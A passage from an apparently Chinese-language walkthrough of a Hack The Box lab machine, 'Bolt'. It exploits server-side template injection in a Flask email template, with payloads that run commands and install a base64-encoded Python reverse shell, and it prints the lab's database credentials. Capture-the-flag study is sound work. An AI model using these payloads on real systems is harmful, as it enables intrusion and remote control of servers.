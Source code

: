 ```html
<html>
	<body>
		<p> %s </p>
		<p> This e-mail serves as confirmation of your profile username changes.</p>
	</body>
</html>
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201292336044.png)

尝试在这里进行模板注入

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201301414778.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201301415951.png)

然后根据网页提示去邮箱`mail.bolt.htb`检查邮件

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201301416844.png)

点击确认连接,邮箱收到新的邮件其中包含模板注入的结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201301417463.png)

`{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()}}`返回`www-data`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201301420520.png)

反弹shell

```python
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('echo "aW1wb3J0IHNvY2tldAppbXBvcnQgc3VicHJvY2VzcwppbXBvcnQgb3MKaXA9IjEwLjEwLjE2LjciCnBvcnQ9ODAwMApzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm5lY3QoKGlwLHBvcnQpKQpvcy5kdXAyKHMuZmlsZW5vKCksMCkKb3MuZHVwMihzLmZpbGVubygpLDEpCm9zLmR1cDIocy5maWxlbm8oKSwyKQpwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKQoKI3B5dGhvbjMgLWMgJ2ltcG9ydCBwdHk7cHR5LnNwYXduKCIvYmluL2Jhc2giKScK" | base64 -d > /tmp/a.py').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('python3 /tmp/a.py').read()}}
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201301724933.png)

`/var/www/demo/config.py`

```python
"""Flask Configuration"""
#SQLALCHEMY_DATABASE_URI = 'sqlite:///database.db'
SQLALCHEMY_DATABASE_URI = 'mysql://bolt_dba:dXUUHSW9vBpH5qRB@localhost/boltmail'
SQLALCHEMY_TRACK_MODIFICATIONS = True
SECRET_KEY = 'kreepandcybergeek'
MAIL_SERVER = 'localhost'
MAIL_PORT = 25
MAIL_USE_TLS = False
MAIL_USE_SSL = False
#MAIL_DEBUG = app.debug
MAIL_USERNAME = None
MAIL_PASSWORD = None
DEFAULT_MAIL_SENDER = 'support@bolt.htb'
```
